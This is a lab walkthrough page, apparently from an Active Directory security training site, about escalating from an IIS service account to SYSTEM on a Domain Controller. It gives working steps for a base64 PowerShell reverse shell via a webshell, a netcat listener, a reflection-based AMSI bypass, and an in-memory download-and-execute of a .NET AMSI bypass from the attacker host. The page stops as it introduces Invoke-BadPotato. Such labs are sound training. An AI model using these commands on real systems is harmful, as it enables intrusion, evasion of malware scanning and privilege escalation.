

repository: netexperiments/wadsecurity · page: labs/multi-domain-attacks/LocalPrivilegeEscalation/index.html · generator: mkdocs

#Local Privilege Escalation
In this attack, we'll leverage remote command execution under a service account security context to compromise the Domain Controller locally. To reach remote command execution position perform the IIS abuse attack, also present in this lab.

Once the attacker achieves remote command execution under the IIS service Application Pool Identity, the next objective is to establish a reverse shell. This is because the uploaded webshell can only run single, stateless commands. It does not maintain a persistent session. To gain more control and flexibility, the attacker needs to spawn a reverse shell that allows interactive command execution and session management.

To do so, run the following:
```
#in the webshell directory
python3 reverse_shell_command.py 192.168.122.2 4444
```

This script outputs a powershell command encoded in B64, for obfuscation and to prevent special character issues. The command will initiate a TCP connection from the machine running the command to port 4444 at IP 192.168.122.2 (the attacker), and listen for powershell commands.

We can get the output from the command, and send it to our webshell endpoint. Before doing so, we'll use netcat to start listening for a connection in port 4444 of the attacker machine.
```
#in the attacker2 terminal
nc -nlvp 4444
#in the attacker terminal
curl -X POST http://192.168.122.10/upload/webshell.aspx --data-urlencode "param=<output from reverse_shell_command.py>"
```

At this point, you've supposedly received a connection in port 4444, meaning the reverse shell has been set up and now you can run commands on a single persistent session, instead of running stateless commands.

The attacker's objective will be to run a mallicious script that uses service account privileges to reach SYSTEM privileges. To be able to run mallicious scripts, AMSI must be bypassed. Anti-Malware Scan Interface scans scripts before execution and prevents it if they're suspicious. AMSI also prevents certain well-known scritps from running. Take a look:

```
Invoke-Mimikatz
echo $Error[0].Exception.Message
```

The error message tells us that this script can't be run due to mallicious content.
Let's try and bypass AMSI in the current powershell process to see if anything different happens:
```
$w=[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils');
$f=$w.GetField('amsiInitFailed','NonPublic,Static');
$f.SetValue($null,$true)

Invoke-Mimikatz
echo $Error[0].Exception.Message
```

This time, we've set the amsiInitFailed flag to true, which indicates powershell that AMSI has failed. Now, powershell won't call AMSI since it has supposedly failed. If you try to run Invoke-Mimikatz again, you'll now get a different error, indicating that there's no such cmdlet, meaning that the AMSI has been bypassed in this session.

Now, the attacker's objective is to bypass AMSI at the .NET level. At this point, the AMSI has been bypassed in the current Powershell session, but the mallicious script we wish to use down the line uses other AMSI-aware processes, namely, C# executables. If we don't bypass AMSI at the .NET level, AMSI will stop our mallicious script from executing.

To bypass AMSI at the .NET level, we'll use 'amsi-net-bypass.txt', present in the webshell directory.
```
#In the Attacker terminal
python3 -m http.server 8081
#In the Attacker2 terminal
(new-object system.net.webclient).downloadstring('http://192.168.122.2:8081/amsi-net-bypass.txt')|IEX
```
This way, we've loaded the 'amsi-net-bypass.txt' into memory and executed it. It should output 'True', meaning that it worked. Important to notice that we've loaded the script into memory, not into disk. Loading mallicious scripts to disk may trigger Anti-Virus tools, so it's imperative to work only in memory.

At this point, the attacker can run mallicious scripts, as long as these scripts do not touch the disk. Let's now escalate our privileges locally, going from the IIS service security context to the SYSTEM security context. This will be done with the 'Invoke-BadPotato.ps1' script:
